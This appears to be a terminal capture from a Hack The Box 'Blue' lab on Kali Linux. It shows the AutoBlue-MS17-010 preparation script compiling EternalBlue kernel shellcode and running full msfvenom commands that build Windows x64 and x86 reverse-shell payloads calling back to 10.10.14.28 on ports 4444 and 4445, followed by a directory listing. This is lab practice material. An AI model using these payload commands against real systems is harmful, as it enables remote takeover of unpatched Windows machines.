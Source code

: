 Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
Y
LHOST for reverse connection:
10.10.14.28
LPORT you want x64 to listen on:
4444
LPORT you want x86 to listen on:
4445
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.28 LPORT=4444

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.28 LPORT=4445
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
root@kali:~/HTB/BLUE/AutoBlue-MS17-010/shellcode# 




root@kali:~/HTB/BLUE/AutoBlue-MS17-010/shellcode# ls -la
total 88
drwxr-xr-x 2 root root  4096 abr 28 20:34 .
drwxr-xr-x 4 root root  4096 abr 28 20:27 ..
-rw-r--r-- 1 root root 20305 abr 28 20:26 eternalblue_kshellcode_x64.asm
-rw-r--r-- 1 root root 19862 abr 28 20:26 eternalblue_kshellcode_x86.asm
-rw-r--r-- 1 root root  1598 abr 28 20:26 eternalblue_sc_merge.py
-rw-r--r-- 1 root root  2205 abr 28 20:34 sc_all.bin
-rw-r--r-- 1 root root  1232 abr 28 20:34 sc_x64.bin
-rw-r--r-- 1 root root   772 abr 28 20:33 sc_x64_kernel.bin
-rw-r--r-- 1 root root   460 abr 28 20:34 sc_x64_msf.bin
-rw-r--r-- 1 root root   962 abr 28 20:34 sc_x86.bin
-rw-r--r-- 1 root root   638 abr 28 20:33 sc_x86_kernel.bin
-rw-r--r-- 1 root root   324 abr 28 20:34 sc_x86_msf.bin
-rwxr-xr-x 1 root root  4557 abr 28 20:26 shell_prep.sh
root@kali:~/HTB/BLUE/AutoBlue-MS17-010/shellcode# 
